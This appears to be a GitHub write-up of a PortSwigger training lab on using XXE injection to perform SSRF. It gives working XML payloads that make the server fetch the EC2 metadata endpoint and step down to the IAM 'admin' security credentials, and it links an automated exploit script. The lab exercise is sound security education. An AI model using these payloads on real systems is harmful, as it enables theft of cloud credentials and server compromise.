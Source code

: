 \+ Lab #2    : Exploiting XXE to perform SSRF attacks\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.<br/>
To solve the lab, exploit the [XXE vulnerability](https://portswigger.net/web-security/xxe) to perform an [SSRF attack](https://portswigger.net/web-security/ssrf) that obtains the server's IAM secret access key from the EC2 metadata endpoint. 

## End Goal:
Retrieve the server's IAM secret access key from the EC2 metadata endpoint. 

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to solve the lab, we need to perform a ```Server-Side Request Forgery (SSRF)``` to query and get EC2 instance metadata, which are located by default at ```/latest/meta-data/<metadata-path>```
> 📝: **NOTE:** <br/>
> For more information about EC2 metadata, refer to: https://towardsthecloud.com/amazon-ec2-instance-metadata
* In this lab, we need to extract the server's IAM secret access key, which means, we will replace ```<metadata-path>``` with ```iam```
* The malicious external entity should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
```
* Now, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>``` and replace the *productId* number with a reference to our malicious external entity ```&xxe;``` just like we did in the previous lab :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request3](https://user-images.githubusercontent.com/101610095/221720253-076cb0dc-091c-4f00-bfce-27f1c22ee7f4.png)
* Server's Response:<br/>
  ![response3](https://user-images.githubusercontent.com/101610095/221720300-fd110559-5019-451d-b854-58d2b7efebb7.png)
* As you can see, we got in the response a folder called ```security-credentials``` which will most likely contain the server's IAM secret access key.
* Let's update our payload and send the request: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Server's response: <br/>
  ![2023-02-28 01_30_27-Burp Suite Community Edition v2023 1 2 - Temporary Project](https://user-images.githubusercontent.com/101610095/221721050-5998738a-b6b8-46fd-9c88-cf30a3a76cba.png)

* The ```security-credentials``` folder contains another folder called ```admin```, which contains the server's IAM secret access key.
* Final Payload: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Request:<br/>
  ![request4](https://user-images.githubusercontent.com/101610095/221721580-3f9a9d9b-4dd1-433e-817f-2fe32aa7761d.png)
* Response: <br/>
  ![response4](https://user-images.githubusercontent.com/101610095/221721615-074b59a8-dd06-4e05-b2b3-129b7fde724c.png)

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/XXE%20Injection/Lab%232/Lab-2.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
usage: Lab-2.py [-h] -u URL [-n]

Usage Example: python3 Lab-2.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                          
```
![Lab2](https://user-images.githubusercontent.com/101610095/221735620-baed7f5a-caa2-4573-ad59-553c6f87c503.gif)
